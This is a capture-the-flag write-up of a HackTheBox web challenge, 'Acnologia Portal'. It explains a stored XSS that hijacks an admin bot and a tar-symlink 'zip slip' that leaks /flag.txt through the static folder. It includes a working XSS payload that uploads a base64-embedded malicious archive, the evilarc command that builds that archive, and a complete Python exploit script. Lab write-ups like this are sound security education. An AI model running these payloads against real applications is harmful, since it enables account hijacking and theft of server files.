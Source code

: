 *2022-05-15*

#ctf-writeup

***

# Acnologia Portal
**Category: Web**

## Description
Bonnie has confirmed the location of the Acnologia spacecraft operated by the Golden Fang mercenary. Before taking over the spaceship, we need to disable its security measures. Ulysses discovered an accessible firmware management portal for the spacecraft. Can you help him get in?

## Initial thoughts
For this challenge, we're given an endpoint to the "Acnologia Firmware Portal", which is just a login screen, as well as a zip file containing the source code. The code looks to be written using the Flask framework.

In `routes.py` we can see all the endpoints available to us. Many of the endpoints are publicly available, but some require you to be logged in, be an administrator, or some combination of the two.

I created an account, and after logging in was given a list of firmware and the ability to report a bug on each.

![[../Files/login.png]]
![[../Files/firmware-list.png]]

Looking at `routes.py` I could see that after posting a firmware report, a function `visit_report()` is called. This function launches a selenium driver in `bot.py` that visits the report review page using a bot with administrative credentials. This immediately indicates an XXS injection.

```python
# routes.py

@api.route('/firmware/report', methods=['POST'])
@login_required
def report_issue():
    if not request.is_json:
        return response('Missing required parameters!'), 401

    data = request.get_json()
    module_id = data.get('module_id', '')
    issue = data.get('issue', '')

    if not module_id or not issue:
        return response('Missing required parameters!'), 401

    new_report = Report(module_id=module_id, issue=issue, reported_by=current_user.username)
    db.session.add(new_report)
    db.session.commit()

    # highlight-start
    visit_report()
    # highlight-end
    migrate_db()

    return response('Issue reported successfully!')
```

If we look at the Jinja2 template for the review page, we confirm our XXS theory. The `{{ report.issue | safe }}` directive tells Jinja2 not to sanitize the value of `report.issue`. We can control the value of `report.issue` when we submit a report, allowing us to XXS the admin bot.

```python
# review.html

...
    <div class="container" style="margin-top: 20px"> {% for report in reports %} <div class="card">
        <div class="card-header"> Reported by : {{ report.reported_by }}
        </div>
        <div class="card-body">
        <p class="card-title">Module ID : {{ report.module_id }}</p>
          # highlight-start
          <p class="card-text">Issue : {{ report.issue | safe }} </p>
          # highlight-end
          <a href="#" class="btn btn-primary">Reply</a>
          <a href="#" class="btn btn-danger">Delete</a>
        </div>
      </div> {% endfor %} </div>
  </body>
</html>
```

Before crafting an XXS, I needed to know what we want the bot to do. Looking at the Dockerfile we see that `flag.txt` is copied to the root of the Linux instance, and somehow we need to read this file.

## Zip slip
One endpoint of interest is `/firmware/upload`, which requires admin access. It takes a file from a POST request and calls `extract_firmware()`.

```python
# routes.py

@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403
```

`extract_firmware()` does the following:
* Copies a tar.gz file to the `/tmp` directory.
* Extracts the tar.gz,
* Copies the extracted files to a randomly-generated directory in `static/firmware_extract`.

This sounds like a zip slip. Something interesting is that tar.gz files allow you to tar existing symlinks and have them maintain their link when untarred on a different system. If we tar a file that is symlinked to `/flag.txt`, we can zip slip this file into the static folder on the challenge instance (which is publically accessible) and then read it from there.

I used a tool called [evilarc](https://github.com/ptoomey3/evilarc) to generate the zip slip tar.gz file with the following command:

```shell
python2 evilarc.py -o unix -d 1 -f zip.tar.gz zip-dir/ -p app/application/static/firmware_extract
```

## The XXS
I took the base64 of this file and crafted an XXS injection to send a POST request using fetch. This will trick the bot into uploading this file.

I used the following XXS injection and submitted this as a firmware report.

```html
<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
</script>
```

Once the bot visits the review page, it will use its admin credentials to upload our tar.gz file to the `/firmware/upload` endpoint. The Flask code will then attempt to un-tar the file, and our zip slip will put the symlink into `/app/application/static/firmware_extract` on the challenge filesystem.

We can then navigate to the endpoint `/static/firmware_extract/symlink` and `flag.txt` will be downloaded onto our computer.

## Final script
I wrote this Python 3 script that does all the steps.

```python
import requests

def main():
    endpoint = "http://127.0.0.1"
    port = "1337"

    requests.post(f"{endpoint}:{port}/api/register", json={"username": "Articuler", "password": "foobar"})
    login = requests.post(f"{endpoint}:{port}/api/login", json={"username": "Articuler", "password": "foobar"})

    cookies = {
        "session": login.cookies["session"],
        "nc_sameSiteCookiestrict": "true",
        "nc_sameSiteCookielax": "true"
    }

    xss = """<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
    </script>"""

    json = {
        "module_id": "test",
        "issue": xss
    }

    r = requests.post(endpoint + ":" + port + "/api/firmware/report", cookies=cookies, json=json)
    print(r.text)

main()
```

## Flag
`HTB{des3r1aliz3_4ll_th3_th1ngs}`

***
